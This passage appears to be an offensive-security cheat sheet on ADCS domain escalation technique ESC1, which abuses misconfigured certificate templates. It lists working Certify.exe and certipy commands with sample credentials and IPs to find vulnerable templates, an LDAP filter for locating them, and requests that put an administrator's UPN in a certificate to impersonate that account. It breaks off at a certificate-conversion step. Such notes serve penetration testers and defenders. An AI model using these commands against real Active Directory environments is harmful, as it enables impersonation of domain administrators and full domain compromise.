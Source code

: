 # ADCS Domain Escalation Techniques

# ESC1 - Misconfigured Certificate Templates

### Domain Users can enroll in the VulnTemplate template, which can be used for client authentication and has ENROLLEE_SUPPLIES_SUBJECT set. This allows anyone to enroll in this template and specify an arbitrary Subject Alternative Name (i.e. as a DA). Allows additional identities to be bound to a certificate beyond the Subject.

## Requirements

#### 1) Template that allows for AD authentication

#### 2) ENROLLEE_SUPPLIES_SUBJECT flag

#### 3) PKINIT Client Authentication, Smart Card Logon, Any Purpose, or No EKU (Extended/Enhanced Key Usage)

## Exploitation

#### 1) Use Certify.exe to see if there are any vulnerable templates

 - Certify.exe find /vulnerable

 - Certify.exe find /vulnerable /currentuser

 - certipy find -username john@corp.local -password Passw0rd -dc-ip 172.16.126.128

 - (&(objectclass=pkicertificatetemplate)(!(mspki-enrollmentflag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-rasignature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2)(pkiextendedkeyusage=1.3.6.1.5.2.3.4)(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*)))(mspkicertificate-name-flag:1.2.840.113556.1.4.804:=1))

#### 2) Use Certify, Certi or Certipy to request a Certificate and add an alternative name (user to impersonate)

 - Certify.exe request /ca:dc.domain.local-DC-CA /template:VulnTemplate /altname:localadmin

 - certipy req -username john@corp.local -password Passw0rd! -target-ip ca.corp.local -ca 'corp-CA' -template 'VULN_TEMPLATE' -upn 'administrator@corp.local'

## Note: If you get the error The NETBIOS connection with the remote host timed out. please rerun the command.

#### 3) Use OpenSSL and convert the certificate, do not enter a password
